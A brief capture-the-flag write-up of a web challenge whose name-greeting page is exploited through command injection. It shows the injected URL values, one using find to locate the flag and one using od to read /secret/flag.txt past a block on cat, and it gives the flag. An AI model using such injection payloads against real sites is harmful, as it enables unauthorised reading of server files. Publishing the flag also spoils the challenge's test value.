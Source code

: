 
*A seemingly simple web application greets users based on their input. But appearances can be deceptive. [https://cybersecure-x-namedropper.chals.io](https://)*

This challenge is solved using a command injection vulnerability with the name parameter.
The url https://cybersecure-x-namedropper.chals.io/?name=|find+/+-name+%22flag*%22 gives:


![[Pasted image 20250613195039.png]]

Now we can read /secret/flag.txt

Trying to run cat /secret/flag.txt shows us that the command in blocked. Therefore we must use other methods to read the flag.

Running  https://cybersecure-x-namedropper.chals.io/?name=|od+-a+/secret/flag.txt gives us:

![[Pasted image 20250613195320.png]]

Flag
`flag{r3str1ct3d_d0esn7_m34n_s3cur3}`


